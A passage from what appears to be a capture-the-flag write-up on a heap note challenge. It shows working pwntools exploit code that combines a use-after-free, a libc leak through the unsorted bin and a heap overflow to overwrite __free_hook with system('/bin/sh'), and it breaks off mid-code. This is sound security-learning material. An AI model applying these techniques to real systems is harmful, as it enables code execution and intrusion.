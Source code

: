         idx = get_idx();
        free(notes[idx]->data);
        free(notes[idx]);
        printf("success!\n");
    }
    ```

### Preliminary Idea
Based on the problem we found above, we can try to use `__free_hook` to execute <font color="FF0000">`system('/bin/sh')`</font>

## Exploit - UAF + heap overflow + __free_hook
1. Try to construct heap structure that we need
    ```python!
    add_note(0, b'a'*8)    # index 0
    edit_note(0, 0x418, b'a')

    add_note(1, b'b'*8)    # index 1
    edit_note(1, 0x18, b'b')

    add_note(2, b'c'*8)    # index 2
    ```
    * `index 0` is for leaking the address of `libc`
    * `index 1` is to implement heap overflow
    * `index 2` is a fake chunk that we have to construct

2. Leak `libc` address and find `__free_hook`, `__libc_system`
* The reason that we set the data size of `index 0` be `0x418`(1048 in decimal) is because when we free it, it will be classified to `Unsorted bin` and the `fd` and `bk` will store the address of `libc`
![](https://imgur.com/6vhQrxv.png)
![](https://imgur.com/pTCDtZo.png)
Then we have to find where is `__libc_system` and `__free_hook`
    ```bash!
    pwndbg> p __libc_system
    $1 = {int (const char *)} 0x7f9614bac290 <__libc_system>
    pwndbg> p &__free_hook
    $2 = (void (**)(void *, const void *)) 0x7f9614d48e48 <__free_hook>
    ```
    The offset is
    `Unsorted bin fd`: $0x7f9614d46be0 - 0x7f9614b5a000 = 0x1ecbe0$
    `__libc_system`: $0x7f9614bac290 - 0x7f9614b5a000 = 0x52290$
    `__free_hook`: $0x7f9614d48e48 - 0x7f9614b5a000 = 0x1eee48$
    
    So, we delete `index 0` first, and try to use `show_note` function to receive the `Unsorted bin fd`
    ```python!
    delete_note(0)
    show_note()
    r.recvuntil(b'data:')
    libc = (u64(r.recv(8)) >> 8) - 0x1ecbe0 - 0xa000000000000
    info(f"libc address: {hex(libc)}")
    free_hook_addr = libc + 0x1eee48
    info(f"__free_hook address: {hex(free_hook_addr)}")
    libc_sys_addr = libc + 0x52290
    info(f"__libc_system address: {hex(libc_sys_addr)}")
    ```
3. Construct fake chunk by using heap overflow
    ```python!
    data = b'/bin/sh\x00'.ljust(0x10, b'b')
    fake_chunk = flat(
        0, 0x21,
        b'cccccccc', b'cccccccc',
        free_hook_addr